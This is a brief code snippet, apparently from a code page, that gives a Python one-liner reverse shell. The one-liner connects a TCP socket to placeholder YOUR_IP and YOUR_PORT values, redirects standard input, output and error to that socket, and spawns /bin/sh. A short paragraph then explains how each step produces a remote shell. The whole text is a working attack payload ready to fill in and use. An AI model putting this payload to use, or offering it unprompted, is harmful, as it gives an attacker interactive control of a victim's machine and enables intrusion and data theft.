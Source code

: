 ``` python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",YOUR_PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

This Python reverse shell command creates a TCP socket and connects to a specified IP address and port. It then uses the os.dup2 function to duplicate the file descriptors of the socket. The pty.spawn function is then used to execute a shell (/bin/sh), which causes the connected socket to become a remote shell. 
